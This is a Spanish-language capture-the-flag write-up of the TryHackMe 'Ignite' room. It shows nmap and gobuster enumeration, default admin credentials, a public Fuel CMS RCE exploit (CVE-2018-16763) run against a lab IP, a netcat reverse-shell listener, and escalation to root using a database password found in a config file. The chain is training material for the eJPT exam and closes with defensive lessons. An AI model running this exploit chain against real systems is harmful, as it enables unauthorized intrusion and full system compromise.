

## Resumen

**Ignite** es la novena máquina de la serie _Road to eJPTv2_. Una máquina de superficie reducida — solo puerto 80 — que demuestra cómo un CMS desactualizado con credenciales por defecto puede comprometer un sistema completo sin necesidad de técnicas complejas.

El flujo es directo: reconocimiento web, exploit público de RCE, y escalada de privilegios usando credenciales de base de datos encontradas en un archivo de configuración.

| Atributo       | Valor                                                 |
| -------------- | ----------------------------------------------------- |
| **Plataforma** | TryHackMe                                             |
| **Dificultad** | Fácil                                                 |
| **OS**         | Linux (Ubuntu)                                        |
| **Sala**       | [Ignite](https://tryhackme.com/room/ignite)           |
| **Skills**     | Web Enum, RCE, Config File Analysis, Credential Reuse |

### Herramientas usadas

- `nmap` — escaneo de puertos y versiones
- `gobuster` — fuzzing de directorios web
- `searchsploit` — búsqueda de exploits locales
- `python3` — ejecución del exploit RCE
- `netcat` — recepción de reverse shell

### Resumen de la solución

1. **Reconocimiento:** nmap detecta solo puerto 80 con Apache. El escaneo con scripts revela Fuel CMS y una entrada en `robots.txt`.
2. **Enumeración web:** `robots.txt` expone `/fuel/` — el panel de administración del CMS.
3. **Acceso inicial:** Las credenciales por defecto `admin:admin` dan acceso al panel.
4. **Explotación:** `searchsploit` revela un RCE sin autenticación en Fuel CMS 1.4.1 (CVE-2018-16763). El exploit nos da ejecución directa de comandos.
5. **User flag:** Encontrada en `/home/www-data/flag.txt` desde el propio exploit.
6. **Reverse shell:** Lanzamos una shell interactiva para mayor comodidad y la estabilizamos.
7. **Privesc:** `database.php` contiene las credenciales de root: `root:mememe`. Un simple `su root` completa la escalada.

---

## Reconocimiento

### Ping

Verificamos conectividad e identificamos el SO por el TTL:

```bash
ping -c 1 10.67.145.103
```

```
64 bytes from 10.67.145.103: icmp_seq=1 ttl=62 time=76.7 ms
```

TTL 62 → Linux (el valor original es 64, se decrementó en los saltos de red).

### Nmap — Escaneo de puertos

```bash
nmap 10.67.145.103 -n -Pn -sS -p- --open --min-rate=5000 -oG allTCPports
```

```
PORT   STATE SERVICE
80/tcp open  http
```

Solo un puerto abierto — toda la superficie de ataque es web.

### Nmap — Versiones y scripts

```bash
nmap 10.67.145.103 -n -Pn -sS -p80 -sCV --min-rate=5000 -oN ignitescan.txt
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-title: Welcome to FUEL CMS
```

Dos hallazgos inmediatos: el título revela **Fuel CMS** y `robots.txt` menciona explícitamente `/fuel/` como directorio deshabilitado — una pista directa hacia el panel de administración.

### Enumeración web

La página principal muestra **Fuel CMS versión 1.4** con su pantalla de bienvenida por defecto. Esto confirma el CMS y la versión exacta — información clave para buscar exploits.


### Fuzzing web — gobuster

```bash
gobuster dir -u http://10.67.145.103 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,css,xml,bak -t 50
```

El fuzzing confirma `/fuel/` entre los directorios encontrados, consistente con lo que ya reveló `robots.txt`.

### robots.txt → Panel de login

Accedemos directamente a `http://10.67.145.103/fuel/` y encontramos el panel de administración de Fuel CMS.



Buscando en la web las credenciales por defecto de Fuel CMS:

> **Credenciales por defecto:** `admin:admin`

El acceso al panel está confirmado.

### Searchsploit — RCE en Fuel CMS 1.4

```bash
searchsploit fuel cms
```

```
Fuel CMS 1.4.1 - Remote Code Execution (1)   | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)   | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)   | php/webapps/50477.py
```

Tres exploits de RCE para la versión exacta que tenemos. Usamos el tercero (`50477.py`, CVE-2018-16763):

```bash
searchsploit -m 50477
```

---

## Explotación

### RCE — Fuel CMS 1.4.1 (CVE-2018-16763)

El exploit aprovecha una vulnerabilidad de ejecución remota de código sin autenticación en el parámetro `pages/select/` de Fuel CMS. Lanzamos el exploit directamente contra la URL objetivo:

```bash
python3 50477.py -u http://10.67.145.103
```

```
[+]Connecting...
Enter Command $whoami
system www-data

Enter Command $ls
system README.md
assets
composer.json
contributing.md
fuel
index.php
robots.txt
```

Tenemos ejecución de comandos como `www-data`.

---

## Post-Explotación

### User flag

Exploramos el sistema de archivos en busca de la flag de usuario:

```bash
Enter Command $ls -l /home
system total 4
drwx--x--x 2 www-data www-data 4096 Jul 26  2019 www-data

Enter Command $cat /home/www-data/flag.txt
system 6470e394cbf6dab6a91682cc8585059b
```

> **User flag:** `6470e394cbf6dab6a91682cc8585059b`

### Reverse shell

Lanzamos una reverse shell desde el exploit para trabajar con una terminal completa. Ponemos netcat en escucha:

```bash
nc -lvnp 4444
```

Desde el exploit enviamos el payload de reverse shell y estabilizamos la conexión:

```bash
www-data@ubuntu:/var/www/html$ script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
www-data@ubuntu:/var/www/html$ export TERM=xterm
www-data@ubuntu:/var/www/html$ export SHELL=bash
www-data@ubuntu:/var/www/html$ stty rows 40 cols 184
```

### Credenciales en database.php

Explorando la estructura del CMS encontramos el archivo de configuración de base de datos:

```bash
www-data@ubuntu:/var/www/html/fuel/application/config$ cat database.php
```

```php
$db['default'] = array(
    'hostname' => 'localhost',
    'username' => 'root',
    'password' => 'mememe',
    'database' => 'fuel_schema',
    ...
);
```

Credenciales de base de datos encontradas: `root:mememe`

---

## Escalada de privilegios

### su root

Con la contraseña obtenida del archivo de configuración, intentamos escalar directamente a root:

```bash
www-data@ubuntu:/var/www/html/fuel/application/config$ su root
Password: mememe
root@ubuntu:/var/www/html/fuel/application/config# whoami
root
```

La contraseña de la base de datos era la misma que la del usuario `root` del sistema — reutilización de credenciales clásica.

### Root flag

```bash
root@ubuntu:~# cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d
```

> **Root flag:** `b9bbcb33e11b80be759c4e844862482d`

---

## Lecciones aprendidas

- **Un solo puerto no significa superficie pequeña** — Toda la cadena de compromiso ocurrió a través del puerto 80. La profundidad de enumeración web es tan importante como la amplitud del escaneo de puertos.
- **`robots.txt` puede ser una guía de ataque** — Los administradores a veces incluyen rutas sensibles en `robots.txt` pensando que "ocultarlas" de los buscadores las protege. Al contrario, las hace explícitas para cualquier atacante.
- **Los CMS desactualizados son blancos fáciles** — Fuel CMS 1.4.1 tiene un RCE sin autenticación (CVE-2018-16763) documentado públicamente. Mantener el software actualizado es una defensa fundamental.
- **Las credenciales por defecto siguen funcionando** — `admin:admin` en un panel de administración expuesto a internet es una vulnerabilidad crítica que se sigue encontrando en entornos reales.
- **Los archivos de configuración son tesoros en post-explotación** — `database.php`, `.env`, `config.php` — siempre buscar archivos de configuración después de ganar acceso. Las credenciales de base de datos frecuentemente se reutilizan como contraseñas del sistema.

### Para la eJPT

| Concepto                         | Relevancia eJPT                                 |
| -------------------------------- | ----------------------------------------------- |
| Identificación de CMS            | Reconocimiento web estándar en el examen        |
| Exploit público con searchsploit | Técnica core para vulnerabilidades conocidas    |
| Análisis de archivos de config   | Post-explotación y movimiento lateral           |
| Reutilización de credenciales    | Vector de escalada muy común en entornos reales |

**Tiempo aproximado de resolución:** 20-30 minutos.

---

## Referencias

- [Ignite — TryHackMe](https://tryhackme.com/room/ignite)
- [Fuel CMS 1.4.1 RCE — Exploit-DB 50477](https://www.exploit-db.com/exploits/50477)
- [CVE-2018-16763](https://nvd.nist.gov/vuln/detail/CVE-2018-16763)
- [GTFOBins](https://gtfobins.github.io/)
